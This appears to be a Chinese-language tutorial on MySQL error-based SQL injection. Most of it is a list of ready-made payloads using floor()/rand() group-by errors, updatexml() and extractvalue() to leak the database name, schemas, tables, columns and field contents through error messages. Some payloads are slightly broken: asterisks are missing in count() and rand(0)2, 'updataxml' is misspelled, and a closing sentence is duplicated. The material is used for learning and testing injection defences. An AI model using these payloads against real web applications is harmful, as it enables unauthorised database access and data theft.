




报错注入
报错注入是在有返回错误信息的情况下尝试使用的一种注入方式，一般是在使用延时注入之前考虑的，之所以最后归纳是因为它的注入语句实在是太过冗长，而且并没有什么逻辑规律可言，理解起来十分困难。
报错注入可以主要可以分为以下几种方式:
floor函数报错
UpdateXml函数报错
extractvalue函数报错
后两种方式具有一定的局限性，报错查询的内容长度最长为32位。
floor()报错
在如何使用floor()报错注入的时候，应该先理解报错注入语句的意义。主要用到以下几个函数：
floor():向下取整
rand():生成随机数
count():统计结果
简单来说就是在查询的时候让其rand()产生不确定的数在使用order by排序时产生报错来返回信息。
具体参考这篇文章
我就直接给出语句：
1 数据库 and (select 1 from(select count(),concat((select (select (select concat(0x7e,database(),0x7e))) from information_schema.tables limit 0,1),floor(rand(0)2))x from information_schema.tables group by x)a) –+
2 库名 and (select 1 from(select count(),concat((select (select (SELECT distinct concat(0x7e,schema_name,0x7e) FROM information_schema.schemata LIMIT 0,1)) from information_schema.tables limit 0,1),floor(rand(0)2))x from information_schema.tables group by x)a) –+
3 表名 and (select 1 from(select count(),concat((select (select (SELECT distinct concat(0x7e,table_name,0x7e) FROM information_schema.tables where table_schema=数据库名 LIMIT 0,1)) from information_schema.tables limit 0,1),floor(rand(0)2))x from information_schema.tables group by x)a) –+
4 列名 and (select 1 from(select count(),concat((select (select (SELECT distinct concat(0x7e,column_name,0x7e) FROM information_schema.columns where table_name=表名 LIMIT 0,1)) from information_schema.tables limit 0,1),floor(rand(0)2))x from information_schema.tables group by x)a) –+
5 字段 and (select 1 from(select count(),concat((select (select (SELECT distinct concat(0x23,列名,0x3a,列名,0x23) FROM 表名 limit 0,1)) from information_schema.tables limit 0,1),floor(rand(0)2))x from information_schema.tables group by x)a) –+
至于其他的语句自己慢慢测试，语句不限这一种，报错注入的成因并不是语句顺序的问题而是在于其逻辑。
Updataxml报错
并没有深入学习Mysql语句，所以对Updataxml()这个函数也是不太了解的，直接贴出具体的报错注入语句吧。。。
1 数据库 and updatexml(1,concat(0x7e,(SELECT database()),0x7e),1) –+
2 库名 and updatexml(1,concat(0x7e,(SELECT distinct concat(0x7e, (select schema_name),0x7e) FROM information_schema.schemata limit 0,1),0x7e),1) –+
3 表名 and updatexml(1,concat(0x7e,(SELECT distinct concat(0x7e, (select table_name),0x7e) FROM information_schema.tables where table_schema=库名 limit 0,1),0x7e),1) –+
4 列名 and updatexml(1,concat(0x7e,(SELECT distinct concat(0x7e, (select column_name),0x7e) FROM information_schema.columns where table_name=表名 limit 0,1),0x7e),1) –+
5 字段 and updataxml(1,concat(0x7e,(select group_concat(列名) from 表名),0x7e),1) –+
Extractvalue报错
这个函数的原理和上个函数差不多，具体格式如下
and extractvalue(1, concat(0x7e, (select database()),0x7e)) –+
其他的和上面类似，一一对照就行了
 由于加了addslashes()函数那么在参数方面注入是不太可能的（宽字节注入另当别论）所以可以考虑其他的方向。
由于加了addslashes()函数那么在参数方面注入是不太可能的（宽字节注入另当别论）所以可以考虑其他的方向。


 
